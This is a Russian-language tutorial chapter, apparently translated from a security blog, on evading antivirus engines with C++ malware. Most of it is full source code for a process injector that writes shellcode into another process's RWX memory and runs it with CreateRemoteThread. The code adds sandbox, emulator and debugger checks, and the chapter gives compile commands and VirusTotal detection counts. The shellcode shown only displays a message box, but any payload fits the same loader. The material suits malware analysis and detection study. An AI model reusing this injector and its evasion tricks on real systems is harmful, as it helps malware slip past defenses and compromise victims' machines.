







\newpage
\subsection{56. Техники обхода антивирусов - часть 3. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Это третья часть учебника, в которой описан пример обхода антивирусных движков с помощью простого вредоносного ПО на C++.   

[первая часть](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html)    
[вторая часть](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html)    

В этом разделе мы попробуем реализовать некоторые техники, используемые вредоносным программным обеспечением для выполнения кода и сокрытия от защитных механизмов.    

Давайте рассмотрим пример исходного кода на C++ для нашего вредоносного ПО, который реализует [классическую инъекцию кода](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html):    


```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {

  // 64-bit meow-meow messagebox without encryption
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, 
  NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

Это классический вариант: мы определяем полезную нагрузку, выделяем память, копируем её в новый буфер, а затем выполняем.    

Основное ограничение сканера антивируса - это время, которое он может потратить на анализ каждого файла. Во время обычного системного сканирования антивирус должен проанализировать тысячи файлов. Он просто не может тратить слишком много времени или ресурсов на какой-то один. Один из "классических" трюков обхода антивируса, помимо шифрования полезной нагрузки: мы просто выделяем и заполняем `100MB` памяти:    

```cpp
char *mem = NULL;
mem = (char *) malloc(100000000);
if (mem != NULL) {
  memset(mem, 00, 100000000);
  free(mem);
  //... выполняем нашу вредоносную логику
}
```

Итак, давайте обновим наше простое вредоносное ПО:   

```cpp
/*
hack.cpp
classic payload injection example
allocate too much memory
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/21/simple-malware-av-evasion-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {

  // meow-meow messagebox x64 windows
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  DWORD pid; // process ID
  pid = atoi(argv[1]);

  // allocate and fill 100 MB of memory
  char *mem = NULL;
  mem = (char *) malloc(100000000);

  if (mem != NULL) {
    memset(mem, 00, 100000000);
    free(mem);

    // parse process ID
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
    DWORD(pid));
    printf("PID: %i", pid);

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
    (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // "copy" data between processes
    WriteProcessMemory(ph, rb, my_payload, 
    sizeof(my_payload), NULL);

    // our process start new thread
    rt = CreateRemoteThread(ph, NULL, 0, 
    (LPTHREAD_START_ROUTINE)rb, 
    NULL, 0, NULL);
    CloseHandle(ph);
    return 0;
  }
}
```

Давайте скомпилируем:   
```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

И запустим его на машине жертвы (`Windows 10 x64`):   

{width="80%"}   

Как видите, всё сработало идеально :)    

А если мы просто загрузим этот вредоносный файл на VirusTotal:   

{width="80%"}    

[https://www.virustotal.com/gui/file/4ff68b6ca99638342b9b316439594c21520e66feca36c2447e3cc75ad3d70f46/detection](https://www.virustotal.com/gui/file/4ff68b6ca99638342b9b316439594c21520e66feca36c2447e3cc75ad3d70f46/detection)    

**Итак, 6 из 67 антивирусных движков обнаружили наш файл как вредоносный.**

Для лучшего результата мы можем добавить [шифрование](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html) полезной нагрузки с ключом или [обфусцировать функции](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html), или же комбинировать обе эти техники.   

Что дальше? Вредоносное ПО часто использует различные методы для определения среды, в которой оно выполняется, и выполнения различных действий в зависимости от ситуации.   

Например, мы можем определить виртуализированную среду. Песочницы и виртуальные машины аналитиков обычно не могут на 100% точно эмулировать реальную среду выполнения. Сегодня типичная пользовательская машина имеет процессор с как минимум 2 ядрами и минимум 2 ГБ оперативной памяти. Таким образом, наше вредоносное ПО может проверить, соответствует ли среда этим ограничениям:   

```cpp
BOOL checkResources() {
  SYSTEM_INFO s;
  MEMORYSTATUSEX ms;
  DWORD procNum;
  DWORD ram;

  // check number of processors
  GetSystemInfo(&s);
  procNum = s.dwNumberOfProcessors;
  if (procNum < 2) return false;

  // check RAM
  ms.dwLength = sizeof(ms);
  GlobalMemoryStatusEx(&ms);
  ram = ms.ullTotalPhys / 1024 / 1024 / 1024;
  if (ram < 2) return false;

  return true;
}
```

Также мы вызовем API-функцию `VirtualAllocExNuma()`. Это альтернативная версия `VirtualAllocEx()`, предназначенная для использования на системах с более чем одним физическим процессором:    

```cpp
typedef LPVOID (WINAPI * pVirtualAllocExNuma) (
  HANDLE         hProcess,
  LPVOID         lpAddress,
  SIZE_T         dwSize,
  DWORD          flAllocationType,
  DWORD          flProtect,
  DWORD          nndPreferred
);

// выделение памяти работает на обычном ПК 
// но завершится с ошибкой в эмуляторах антивирусов
BOOL checkNUMA() {
  LPVOID mem = NULL;
  pVirtualAllocExNuma myVirtualAllocExNuma = 
  (pVirtualAllocExNuma)GetProcAddress(
  GetModuleHandle("kernel32.dll"), "VirtualAllocExNuma");
  mem = myVirtualAllocExNuma(GetCurrentProcess(), 
  NULL, 1000, MEM_RESERVE | MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE, 0);
  if (mem != NULL) {
    return false;
  } else {
    return true;
  }
}

//...
```

Здесь мы пытаемся выделить память с помощью `VirtualAllocExNuma()`, и если это не удаётся, то программа просто завершается. В противном случае выполнение продолжается.   

Так как код эмулируется, он не запускается в процессе с именем бинарного файла. Поэтому мы сначала проверяем, содержит ли первый аргумент имя файла:   
```cpp
// как меня зовут???
if (strstr(argv[0], "hack2.exe") == NULL) {
  printf("Как меня зовут? Что за черт?? :(");
  return -2;
}
```

Можно просто "спросить" операционную систему, прикреплён ли какой-либо отладчик. Функция `IsDebuggerPresent` по сути проверяет флаг `BeingDebugged` в `PEB`:   
```cpp
// "спросим" ОС, есть ли активный отладчик
if (IsDebuggerPresent()) {
  printf("обнаружен подключенный отладчик :(");
  return -2;
}
```

Динамический анализ вредоносного ПО (или песочница) стал центральной частью любой крупной системы безопасности. В то же время почти все современные угрозы содержат логику обнаружения песочницы.   

Таким образом, мы можем попытаться объединить все эти трюки (`hac2.cpp`):    

```cpp
/*
hack.cpp
classic payload injection example
allocate too much memory
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/21/simple-malware-av-evasion-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <memoryapi.h>

typedef LPVOID (WINAPI * pVirtualAllocExNuma) (
  HANDLE         hProcess,
  LPVOID         lpAddress,
  SIZE_T         dwSize,
  DWORD          flAllocationType,
  DWORD          flProtect,
  DWORD          nndPreferred
);

// memory allocation work on regular PC 
// but will fail in AV emulators
BOOL checkNUMA() {
  LPVOID mem = NULL;
  pVirtualAllocExNuma myVirtualAllocExNuma = 
  (pVirtualAllocExNuma)GetProcAddress(
  GetModuleHandle("kernel32.dll"), 
  "VirtualAllocExNuma");
  mem = myVirtualAllocExNuma(GetCurrentProcess(), 
  NULL, 1000, MEM_RESERVE | MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE, 0);
  if (mem != NULL) {
    return false;
  } else {
    return true;
  }
}

// resource check
BOOL checkResources() {
  SYSTEM_INFO s;
  MEMORYSTATUSEX ms;
  DWORD procNum;
  DWORD ram;

  // check number of processors
  GetSystemInfo(&s);
  procNum = s.dwNumberOfProcessors;
  if (procNum < 2) return false;

  // check RAM
  ms.dwLength = sizeof(ms);
  GlobalMemoryStatusEx(&ms);
  ram = ms.ullTotalPhys / 1024 / 1024 / 1024;
  if (ram < 2) return false;

  return true;
}

int main(int argc, char* argv[]) {

  // meow-meow messagebox x64 windows
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  DWORD pid; // process ID
  pid = atoi(argv[1]);

  // what is my name???
  if (strstr(argv[0], "hack2.exe") == NULL) {
    printf("What's my name? WTF?? :(\n");
    return -2;
  }

  // "ask" the OS if any debugger is present
  if (IsDebuggerPresent()) {
    printf("attached debugger detected :(\n");
    return -2;
  }

  // check NUMA
  if (checkNUMA()) {
    printf("NUMA memory allocate failed :( \n");
    return -2;
  }

  // check resources
  if (checkResources() == false) {
    printf("possibly launched in sandbox :(\n");
    return -2;
  }

  // allocate and fill 100 MB of memory
  char *mem = NULL;
  mem = (char *) malloc(100000000);

  if (mem != NULL) {
    memset(mem, 00, 100000000);
    free(mem);

    // parse process ID
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
    DWORD(pid));
    printf("PID: %i", pid);

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
    (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // "copy" data between processes
    WriteProcessMemory(ph, rb, my_payload, 
    sizeof(my_payload), NULL);

    // our process start new thread
    rt = CreateRemoteThread(ph, NULL, 0, 
    (LPTHREAD_START_ROUTINE)rb, 
    NULL, 0, NULL);
    CloseHandle(ph);
    return 0;
  }
}
```

Давайте скомпилируем:

{width="80%"}    

И запустим его на машине жертвы (`Windows 10 x64`):   

{width="80%"}   

Как видите, наша вредоносная логика не запустилась, так как мы находимся в виртуальной машине с 1-ядерным процессором.    

Давайте загрузим этот вариант на VirusTotal:    

{width="80%"}   

[https://www.virustotal.com/gui/file/5658fd8d326dcbb01492c0d5644cdeb69dc8d64acbf939a91b25a3caa53f7a61/detection](https://www.virustotal.com/gui/file/5658fd8d326dcbb01492c0d5644cdeb69dc8d64acbf939a91b25a3caa53f7a61/detection)

**Итак, 8 из 67 антивирусных движков обнаружили наш файл как вредоносный.**

Как обычно, для лучшего результата мы можем добавить [шифрование](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html) полезной нагрузки с ключом или [обфусцировать функции](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html), или же комбинировать обе эти техники.

В заключение, эти примеры показывают, что обойти антивирус довольно просто, если использовать их слабые места. Это требует лишь некоторого знания системы Windows и принципов работы антивирусов.    

Также мы можем попытаться определить устройства и названия производителей нашего компьютера, искать артефакты, характерные для виртуальных машин, проверять имена файлов, процессов или окон, анализировать разрешение экрана и многое другое. Я покажу эти техники и реальные примеры в будущих отдельных постах.    

Надеюсь, этот раздел повысит осведомлённость специалистов по защите информации о данной интересной технике и добавит новый инструмент в арсенал пентестеров.    

[The Antivirus Hacker's Handbook](https://www.amazon.com/Antivirus-Hackers-Handbook-Joxean-Koret/dp/1119028752)    
[Wikileaks - Bypass AV Dynamic Analysis](https://wikileaks.org/ciav7p1/cms/files/BypassAVDynamics.pdf)    
[DeepSec 2013 Talk: The Joys of Detecting Malicious Software](https://blog.deepsec.net/deepsec-2013-talk-easy-ways-to-bypass-anti-virus-systems/)    
[IsDebuggerPresent](https://docs.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-isdebuggerpresent)    
[VirtualAllocExNuma](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocexnuma)    
[NUMA Support](https://docs.microsoft.com/en-us/windows/win32/procthread/numa-support)    
[исходный код Github](https://github.com/cocomelonc/2021-12-21-simple-malware-av-evasion-3)    
